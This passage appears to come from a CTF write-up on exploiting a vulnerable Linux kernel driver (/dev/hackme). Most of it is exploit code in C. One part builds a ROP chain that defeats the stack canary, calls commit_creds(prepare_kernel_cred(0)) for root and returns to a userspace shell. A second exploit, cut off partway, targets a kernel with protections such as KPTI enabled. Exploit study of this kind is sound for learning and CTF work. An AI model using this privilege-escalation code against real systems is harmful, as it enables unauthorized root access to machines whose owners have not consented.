 ```c

    set_offset();

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
    // rop[i++] = (size_t)get_shell;

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = 8;
    rop[i++] = cmp_rdx_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );

}
```

## exp2

保护全开之后的exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define DEV		"/dev/hackme"
#define PLEN	40

/* Global file descriptor */
int g_fd = 0;

/* cookie and address to build payload */
unsigned long canary, imagebase, ksymtab_commit_creds, commit_creds, ksymtab_prepare_kernel_cred, prepare_kernel_cred, root_cred, kpti_trampoline;

/* userspace registers to restore when recovering from kernel space */
unsigned long us_cs, us_rflags, us_rsp, us_ss;

//Gadgets
```